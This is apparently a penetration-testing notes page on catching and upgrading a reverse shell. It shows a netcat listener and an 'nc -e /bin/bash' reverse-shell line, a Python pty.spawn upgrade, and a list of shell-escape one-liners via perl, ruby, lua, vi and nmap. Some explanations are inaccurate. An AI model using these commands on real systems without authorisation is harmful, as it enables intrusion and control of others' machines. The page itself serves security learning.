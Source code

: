 # 🧛‍♂️ Stabilize & Elevate a shell

First, it's good to have knowledge about what kind of way you can pop a shell:

{% content-ref url="../../still-sorting-out/documentation/cybersecurity-documentation/exploitation-basics/reverse-shell-and-bind-shell.md" %}
[reverse-shell-and-bind-shell.md](../../still-sorting-out/documentation/cybersecurity-documentation/exploitation-basics/reverse-shell-and-bind-shell.md)
{% endcontent-ref %}

<figure><img src="../../.gitbook/assets/image (792).png" alt=""><figcaption></figcaption></figure>

If you have a nc shell tab auto complete, to up arrow and formatting problems →

**Listener:**

```
nc -nlvp 80
```

**Target:**&#x20;

```
nc -e /bin/bash 127.0.0.1 80
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1).png" alt=""><figcaption></figcaption></figure>

First technique with python:

```
python -c 'import pty; pty.spawn("/bin/bash")'
#OR
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys" %}

this relies on the target system having python

you can utilize other commands:

1.  Python:

    ```python
    echo os.system('/bin/bash')
    ```

    This Python code uses the `os.system()` function to execute `/bin/bash`.
2.  Bourne Shell:

    ```
    /bin/sh -i
    ```

    This command executes the Bourne shell `/bin/sh` in interactive mode (`-i`).
3.  Using script utility:

    ```
    script -qc /bin/bash /dev/null
    ```

    This command uses the `script` utility to run `/bin/bash` with output suppression (`-q`) and input redirection from `/dev/null`.
4.  Perl:

    ```
    perl -e 'exec "/bin/sh";'
    ```

    &#x20;In Perl, this command executes `/bin/sh` using the `exec` function.
5.  Ruby:

    ```
    exec "/bin/sh"
    ```

    This Ruby command uses the `exec` function to execute `/bin/sh`.
6.  Lua:

    ```
    os.execute('/bin/sh')
    ```

    In Lua, this command uses `os.execute()` to execute `/bin/sh`.
7.  Ruby IRB:

    ```
    exec "/bin/sh"
    ```

    This command is executed in the Ruby IRB (Interactive Ruby) shell and uses `exec` to execute `/bin/sh`.
8.  vi:

    ```
    :!bash
    ```

    In the vi editor, this command executes `bash` shell.
9.  vi (setting shell):

    ```
    :set shell=/bin/bash:shell
    ```

    This sets the shell to `/bin/bash` in vi.
10. nmap:

    ```
    !sh
    ```

    In nmap, the `!` is used to execute shell commands. Here it's running `/bin/sh`.

